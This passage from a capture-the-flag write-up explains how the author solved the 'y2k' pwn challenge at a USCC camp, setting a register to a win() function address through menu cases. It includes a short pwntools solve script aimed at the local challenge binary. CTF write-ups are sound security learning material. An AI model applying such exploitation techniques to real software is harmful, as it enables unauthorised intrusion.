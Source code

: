 Okay, now that we got the address, let's find out how we can set `rbx` to `0x401276` and call it.

Going to [case 1](#case-1), we can set `rbx` to `0x400000`. Next, let's append `0x1270` to `rbx` via [case 2](#case-2), setting `rbx` to `0x401270`.

We still need `0x6` more bytes. Luckily, we've only used **2/7** of our digits. We can go ahead and go to [case 9](#case-9) three times, setting `rbx` to `0x401276`.

Now there's only one more thing to do, call `win()`! All we need is to go to [case 5](#case-5) and that should be it.

#### Solve Script
{{< highlight py solve.py >}}
from pwn import *

p = process('./y2k')

# Send the year
p.sendline(b'327682000')

# Send the code
p.sendline(b'1')
p.sendline(b'2')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'5')

p.interactive()
{{< /highlight >}}

## Conclusion
The USCC camp was a great experience and was an opportunity I'm glad that I took advantage of. Again, I'd like to thank those responsible for the USCC, its partners, and the BisonSquad Team, especially the pwn challenge creator :grin:.
